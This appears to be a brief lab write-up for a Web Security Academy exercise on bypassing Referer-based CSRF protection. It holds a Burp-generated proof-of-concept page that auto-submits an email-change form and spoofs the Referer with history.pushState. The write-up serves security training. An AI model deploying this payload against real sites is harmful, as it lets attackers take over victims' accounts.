 # CSRF Referrer-based protection bypass (broken validation)

![image.png](CSRF%20Referrer-based%20protection%20bypass%20(broken%20vali%201e0021737a8980478cb5fbb49722a33d/image.png)

Note: Referrer-Policy must be set to unsafe-url in order for this payload to work:

![image.png](CSRF%20Referrer-based%20protection%20bypass%20(broken%20vali%201e0021737a8980478cb5fbb49722a33d/image%201.png)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac700d803f43dd5801cc1640046007c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hackezr&#64;hack&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ac700d803f43dd5801cc1640046007c.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```